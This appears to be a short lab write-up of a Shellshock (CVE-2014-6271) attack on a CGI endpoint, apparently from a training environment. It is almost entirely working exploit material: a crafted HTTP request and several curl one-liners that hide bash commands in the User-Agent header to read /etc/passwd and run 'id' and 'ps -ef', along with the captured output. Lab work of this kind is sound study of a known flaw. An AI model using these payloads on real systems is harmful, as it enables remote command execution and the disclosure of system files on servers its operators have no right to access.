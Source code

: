 [Shellshock exploit + vulnerable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)

```
GET /gettime.cgi HTTP/1.1
Host: 192.126.145.3
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.126.145.3/
Connection: close
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
```

```
root@attackdefense:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://192.126.145.3/gettime.cgi

uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

```
root@attackdefense:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ps -ef'" http://192.126.145.3/gettime.cgi

UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 15:17 ?        00:00:00 /usr/bin/python /usr/bin/supervisord -n
root          10       1  0 15:17 ?        00:00:00 /bin/bash /root/startup.sh
daemon        11      10  0 15:17 ?        00:00:04 /opt/apache/bin/httpd -X
daemon        12      11  0 15:17 ?        00:00:02 /opt/apache/bin/httpd -X
daemon     12062      12  0 16:25 ?        00:00:00 /usr/local/bash-4.3.0/bin/bash /opt/apache/htdocs/gettime.cgi
daemon     12063   12062  0 16:25 ?        00:00:00 ps -ef
```